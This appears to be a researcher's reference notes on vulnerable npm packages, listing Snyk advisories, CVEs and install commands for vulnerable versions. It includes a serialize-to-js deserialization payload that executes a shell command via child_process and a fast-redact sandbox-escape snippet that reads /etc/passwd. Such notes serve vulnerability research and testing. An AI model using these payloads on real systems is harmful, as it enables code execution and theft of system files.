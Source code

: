 
To see all versions of a package:

`npm view <package-name>`


### Serialize js 

https://snyk.io/vuln/npm:serialize-to-js:20170208
`npm i serialize-to-js@0.8`

```JavaScript
var serialize = require('serialize-to-js');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.deserialize(payload);
```


### Node Serialize

https://snyk.io/test/npm/node-serialize/0.0.4

`npm install node-serialize`


### Serialize JavaScript

https://snyk.io/vuln/SNYK-JS-SERIALIZEJAVASCRIPT-570062

`npm i serialize-javascript@3.0`


### Safer Eval

https://snyk.io/vuln/SNYK-JS-SAFEREVAL-534901  2019-10769
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-173772  2019-10759
https://snyk.io/vuln/SNYK-JS-SAFEREVAL-473029  2019-10760

This needs dynamic analysis first.

### Safe Eval

https://snyk.io/vuln/npm:safe-eval:20170830 2017-16088
https://www.npmjs.com/advisories/1021

### Static Eval

`npm i static-eval` (<2.0.0)

https://snyk.io/vuln/npm:static-eval:20171016    2017-16226
https://snyk.io/vuln/SNYK-JS-STATICEVAL-173693   ---

https://maustin.net/articles/2017-10/static_eval


### Fast Redact

https://itnext.io/how-i-exploited-a-remote-code-execution-vulnerability-in-fast-redact-9e69fa35572f

```
const buffer = Buffer.allocUnsafe(8192)
process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096)
console.log(buffer.toString())
```

### MathJS

https://snyk.io/vuln/npm:mathjs:20171118-1   2017-1001003
https://snyk.io/vuln/npm:mathjs:20170331     2017-0331s
https://snyk.io/vuln/npm:mathjs:20171118     2017-1001002
https://snyk.io/vuln/npm:mathjs:20170402    2017-0402s
https://snyk.io/vuln/npm:mathjs:20170527     2017-0527



Helper post:
https://capacitorset.github.io/mathjs/

### Morgan 

https://snyk.io/vuln/SNYK-JS-MORGAN-72579 2019-5413

PoC:
https://hackerone.com/reports/390881

### Other Notes

(For Nikos: https://github.com/bkimminich/juice-shop/issues/269)
